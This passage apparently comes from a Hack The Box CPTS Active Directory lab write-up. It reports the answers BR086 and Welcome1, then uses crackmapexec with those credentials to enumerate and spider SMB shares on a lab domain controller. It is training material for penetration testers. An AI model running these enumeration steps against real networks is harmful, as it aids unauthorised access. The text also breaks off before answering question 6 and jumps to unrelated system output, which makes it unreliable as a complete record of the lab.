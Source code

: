 SMB 172.16.7.3 445 DC01 [+] INLANEFREIGHT.LOCAL\BR086:Welcome1

**Answer:** `**BR086**`

### 

5. What is this user's password?[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/active-directory-enumeration-and-attacks/labs-skills-assessment#5.-what-is-this-users-password)

Continued from above

**Answer:** `**Welcome1**`

### 

6. Locate a configuration file containing an MSSQL connection string. What is the password for the user listed in this file?[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/active-directory-enumeration-and-attacks/labs-skills-assessment#6.-locate-a-configuration-file-containing-an-mssql-connection-string.-what-is-the-password-for-the-u)

Enumerated shares with new account:

┌─[htb-student@skills-par01]─[~]

└──╼ $crackmapexec smb 172.16.7.3 -u BR086 -p Welcome1 --shares

SMB 172.16.7.3 445 DC01 [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)

SMB 172.16.7.3 445 DC01 [+] INLANEFREIGHT.LOCAL\BR086:Welcome1

SMB 172.16.7.3 445 DC01 [+] Enumerated shares

SMB 172.16.7.3 445 DC01 Share Permissions Remark

SMB 172.16.7.3 445 DC01 ----- ----------- ------

SMB 172.16.7.3 445 DC01 ADMIN$ Remote Admin

SMB 172.16.7.3 445 DC01 C$ Default share

SMB 172.16.7.3 445 DC01 Department Shares READ Share for department users

SMB 172.16.7.3 445 DC01 IPC$ READ Remote IPC

SMB 172.16.7.3 445 DC01 NETLOGON READ Logon server share

SMB 172.16.7.3 445 DC01 SYSVOL READ Logon server share

​

┌─[htb-student@skills-par01]─[~]

└──╼ $crackmapexec smb 172.16.7.3 -u BR086 -p Welcome1 -M spider_plus --share 'Department Shares'

[-] Failed loading module at /usr/lib/python3/dist-packages/cme/modules/slinky.py: No module named 'pylnk3'

SMB 172.16.7.3 445 DC01 [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)

SMB 172.16.7.3 445 DC01 [+] INLANEFREIGHT.LOCAL\BR086:Welcome1


[01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[01]: KB4578966
[02]: KB4464455
[01]: vmxnet3 Ethernet Adapter
[01]: 10.129.139.169
[02]: fe80::208f:25d9:3c7c:d424
[03]: dead:beef::208f:25d9:3c7c:d424
[04]: dead:beef::11
[02]: vmxnet3 Ethernet Adapter
[01]: 172.16.6.100
[02]: fe80::f8c8:c134:4fe9:c4b0